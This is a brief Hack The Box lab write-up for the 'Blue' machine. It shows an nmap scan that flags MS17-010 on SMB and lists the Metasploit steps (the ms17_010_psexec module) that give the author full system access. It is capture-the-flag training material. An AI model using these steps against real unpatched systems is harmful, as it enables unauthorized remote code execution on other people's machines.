

# Blue

<h1 align=center>
    <br>
    <a href=https://app.hackthebox.com/machines/Blue></a>
    <br>
</h1>

***

__Machine IP__:
```bash
10.129.113.127
```
__Date__: 2024-01-19

***

# Nmap


```bash
sudo nmap -sC -sV 10.129.113.127 > Blue/nmap_10.129.113.127
```
RPC and SMB are the only ports open. I'll start with my SMBENUM command and see the results.

# SMBEnum

>Host script results:

|_smb-vuln-ms10-054: false

|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND

| smb-vuln-ms17-010: 

|   VULNERABLE:

|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

|     State: VULNERABLE

|     IDs:  CVE:CVE-2017-0143

|     Risk factor: HIGH

|       A critical remote code execution vulnerability exists in Microsoft SMBv1

|        servers (ms17-010).

|     Disclosure date: 2017-03-14
> 

# Exploit
I've done this box before so I know that MSF has an exploit built for this. Since I'm getting warmed back up to my hacking career lets do this as initially intended.

1. `msfconole`
2. `search ms17`
3. Select ms17_010_psexec with `use 1`
4. Adjust settings to target. But also make sure that the LHOST is on the HTB network, not your usual IP.
5. `run`


No privelege escalation steps required on this box as I'm already running as the highest priveleged user.
